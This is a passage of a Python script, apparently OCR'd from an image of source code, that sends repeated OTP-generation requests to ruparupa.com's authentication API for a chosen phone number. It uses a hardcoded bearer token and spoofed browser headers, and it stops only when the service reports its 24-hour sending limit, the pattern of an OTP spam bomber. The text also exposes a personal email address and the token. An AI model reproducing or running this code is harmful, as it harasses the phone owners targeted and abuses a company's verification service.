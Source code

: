 'x-company-name' : 'odi'

}

data_1 = {

'phone' : number,

'email' : 'aliviav088@gmail.com',

'action' : 'register',

'password' : ''

}

headers_2 = {

'authorization' : 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiYjMzZTk5NjctMjdhMy00ZjkxLWE2M2MtM2M4NzMyZTZhOTU2IiwiaWF0IjoxNTgwNjM2ODI0LCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.pC9EDy_79GIDd4NOJKZP2kH5EjPdUK5VGUn59CzsdG0',

'x-company-name' : 'odi', 

'User-Agent' : 'Mozilla/5.0 (Linux; Android 5.1.1; AFTT Build/LVY48F; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/49.0.2623.10',

'Origin' : 'https://m.ruparupa.com',

'referer' : 'https://m.ruparupa.com/verification?page=otp-choices',

'accept-encoding' : 'gzip, deflate, br' 

}

data_2 = {

'phone' : number,

'action' : 'register',

'channel' : 'chat', 
'email' : '',

'customer_id' : '0',

'is_resend' : 0

}

url_1 = 'https://wapi.ruparupa.com/auth/check-otp-auth'

url_2 = 'https://wapi.ruparupa.com/auth/generate-otp'

sending_1 = requests.post(url_1, headers = headers_1, data = data_1)

sending_2 = requests.post(url_2, headers = headers_2, data = data_2)

if 'tunggu 1x24 jam' in sending_2.text:

print

print(''+W+'Pengiriman Sudah Limit\nSilahkan Coba 1 x 24 Jam Lagi :)')

break
